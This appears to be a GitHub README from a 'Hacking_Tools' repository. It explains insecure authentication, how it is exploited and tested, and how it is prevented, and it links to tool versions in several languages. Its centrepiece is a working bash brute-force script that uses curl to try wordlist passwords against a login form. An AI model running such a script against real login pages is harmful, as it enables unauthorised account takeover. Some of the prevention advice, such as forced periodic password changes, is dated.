 ### What is Insecure Authentication?

Insecure authentication vulnerabilities occur when systems fail to adequately verify the identity of users during the authentication process. This can result in unauthorized access to sensitive information or resources. Here are some common types:

1. **Weak Passwords**: Allowing users to set weak passwords, such as those that are short, easily guessable, or commonly used.
2. **Storage of Passwords**: Storing passwords in plaintext or using weak encryption methods, making them vulnerable to unauthorized access.
3. **Brute Force Attacks**: Allowing unlimited login attempts without any rate limiting, making it easier for attackers to guess passwords through automated brute force attacks.
4. **Default Credentials**: Using default usernames and passwords that are well-known or easy to guess.
5. **Session Management Issues**: Failing to properly manage user sessions, leading to session fixation or session hijacking attacks.

### How Insecure Authentication Works:

Insecure authentication vulnerabilities can be exploited by attackers in various ways:

1. **Password Guessing**: Attackers attempt to log in with commonly used or easily guessable passwords.
2. **Brute Force Attacks**: Attackers use automated tools to systematically try different combinations of usernames and passwords until they gain access.
3. **Credential Stuffing**: Attackers use stolen username and password combinations from other breaches to gain unauthorized access to other accounts.
4. **Session Hijacking**: Attackers intercept or steal session tokens to impersonate legitimate users and gain unauthorized access to their accounts.

### Testing for Insecure Authentication Vulnerabilities:

To test for insecure authentication vulnerabilities, you can use a combination of manual testing and automated tools:

1. **Manual Testing**: Review the authentication mechanisms in place, including password policies, session management, and login error messages, to identify potential weaknesses.
2. **Automated Tools**: Utilize tools like OWASP ZAP, Burp Suite, or Nmap to perform automated scans and identify common authentication vulnerabilities.

### Bash Script for Testing:

Here's a simple bash script to demonstrate a basic brute force attack against a login form:

```bash
#!/bin/bash

# Set target URL and credentials
TARGET_URL="http://example.com/login"
USERNAME="admin"
WORDLIST="passwords.txt"

# Iterate through each password in the wordlist
while IFS= read -r PASSWORD; do
    # Send POST request with credentials
    response=$(curl -s -o /dev/null -w "%{http_code}" -d "username=$USERNAME&password=$PASSWORD" $TARGET_URL)
    
    # Check if login was successful (status code 200)
    if [ "$response" == "200" ]; then
        echo "Login successful with credentials: $USERNAME:$PASSWORD"
        exit 0
    fi
done < "$WORDLIST"

echo "Brute force attack unsuccessful."
exit 1
```

Replace `http://example.com/login` with the actual login URL and `passwords.txt` with the path to your wordlist.

### Preventing Insecure Authentication Vulnerabilities:

To prevent insecure authentication vulnerabilities, follow these best practices:

1. **Enforce Strong Password Policies**: Require users to create complex passwords and regularly change them.
2. **Implement Multi-Factor Authentication (MFA)**: Use additional authentication factors such as SMS codes, biometrics, or hardware tokens to enhance security.
3. **Encrypt Passwords Properly**: Store passwords securely using strong encryption algorithms and salted hashes.
4. **Implement Account Lockout Mechanisms**: Temporarily lock user accounts after a certain number of failed login attempts to prevent brute force attacks.
5. **Regularly Update Default Credentials**: Change default usernames and passwords to unique, complex values.
6. **Use Secure Session Management**: Implement session timeouts, secure cookies, and HTTPS to prevent session hijacking and fixation attacks.

By following these practices and regularly testing your authentication mechanisms, you can mitigate the risk of insecure authentication vulnerabilities and enhance the overall security of your systems. Remember, security is an ongoing process, so stay vigilant and keep adapting to new threats and best practices.

## Corresponding Tools

- [**Bash**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_bash/insecure_authentication.sh)
- [**C++**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_c%2B%2B/insecure_authentication.cpp)
- [**Go**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_go/insecure_authentication.go)
- [**JavaScript**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_javascript/insecure_authentication.js)
- [**Perl**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_perl/insecure_authentication.pl)
- [**PHP**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_php/insecure_authentication.php)
- [**Python**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_python/insecure_authentication.py)
- [**Ruby**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_ruby/insecure_authentication.rb)

